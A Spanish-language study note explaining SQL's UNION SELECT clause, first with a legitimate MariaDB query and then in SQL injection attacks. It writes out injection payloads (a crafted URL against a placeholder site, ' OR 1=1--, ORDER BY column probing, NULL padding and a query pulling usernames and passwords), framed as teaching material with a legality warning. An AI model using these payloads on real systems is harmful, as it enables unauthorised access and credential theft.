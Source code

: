 # Introducción a UNION SELECT en SQL (y su aplicación en SQLi)

## Objetivo del documento

Entender el funcionamiento y la lógica de la cláusula `UNION SELECT` en SQL, partiendo de un ejemplo práctico legítimo, para después comprender cómo puede ser usada de forma maliciosa durante un ataque de **SQL Injection** ([[SQLi]]).

---

## ¿Qué es `UNION SELECT`?

La cláusula `UNION` en SQL permite **combinar los resultados de dos o más consultas SELECT** en una sola tabla de resultados.

**Nota:** podemos ver un ejemplo en [[UNION SELECT - Ejemplo]]
### Requisitos básicos:

1. **Mismo número de columnas** en cada SELECT.
2. **Tipos de datos compatibles** entre las columnas correspondientes.
3. La primera SELECT determina los nombres de las columnas del resultado final.
4. `UNION` elimina duplicados por defecto.
5. Si se quieren incluir duplicados, se usa `UNION ALL`.

---

## Ejemplo legítimo: ejercicio práctico

En un servidor MariaDB se usó esta consulta para unir identificadores de dos tablas diferentes:

```sql
SELECT COUNT(*) FROM (
  SELECT emp_no FROM employees
  UNION
  SELECT dept_no FROM departments
) AS total_union;
````

### ¿Qué hicimos aquí?

- Seleccionamos una sola columna de cada tabla (`emp_no` y `dept_no`).
    
- Las unimos en un solo conjunto de resultados.
    
- Contamos cuántos registros únicos resultaban tras la unión.
    

---

## Aplicación en SQL Injection

### Contexto

Cuando una aplicación web construye dinámicamente consultas SQL a partir de entradas del usuario **sin sanitizarlas correctamente**, un atacante puede inyectar código malicioso. Una técnica común es usar `UNION SELECT` para:

- Leer información de otras tablas.
    
- Bypassear validaciones.
    
- Obtener datos sensibles (como contraseñas, usuarios, etc).
    

---

## Ejemplo básico de SQLi con `UNION SELECT`

Imaginemos una URL vulnerable como esta:

```
http://victima.com/product.php?id=10
```

Y en el backend ocurre algo como:

```sql
SELECT name, price FROM products WHERE id = 10;
```

Si el campo `id` no está bien validado, un atacante puede hacer:

```
http://victima.com/product.php?id=10 UNION SELECT user, password FROM users--
```

Lo que generaría una consulta como:

```sql
SELECT name, price FROM products WHERE id = 10
UNION
SELECT user, password FROM users;
```

### Resultado:

- Si las columnas coinciden en número y tipo, se mostrarían datos de otra tabla en el lugar donde el usuario espera ver productos.
    
- Esto permite exfiltrar información de forma silenciosa.
    

---

## Cómo identificar una SQLi con `UNION SELECT`

Pasos comunes de ataque:

1. **Verificar la vulnerabilidad**:
    
    ```sql
    ' OR 1=1--
    ```
    
2. **Descubrir el número de columnas**:
    
    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--  → Hasta que dé error
    ```
    
3. **Probar con NULLs para ajustar tipos**:
    
    ```sql
    ' UNION SELECT NULL, NULL--
    ```
    
4. **Obtener datos**:
    
    ```sql
    ' UNION SELECT user, password FROM users--
    ```
    

> Es importante destacar que este tipo de prueba **solo se debe hacer en entornos controlados o con autorización explícita**. La realización de ataques sin permiso es ilegal.

---

## Conclusión

- `UNION SELECT` es una herramienta poderosa tanto para **consultas legítimas** como para **ataques SQLi**.
    
- Entender cómo se comporta esta cláusula permite:
    
    - Redactar mejores consultas SQL.
        
    - Detectar y prevenir vulnerabilidades en aplicaciones web.
        
- Practicar con ejercicios legítimos, como el de unir `employees` y `departments`, es un buen paso previo para entender su abuso en SQLi.
    

---

## Recursos recomendados

- [OWASP - SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
    
- [PayloadAllTheThings - SQLi Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
    

---
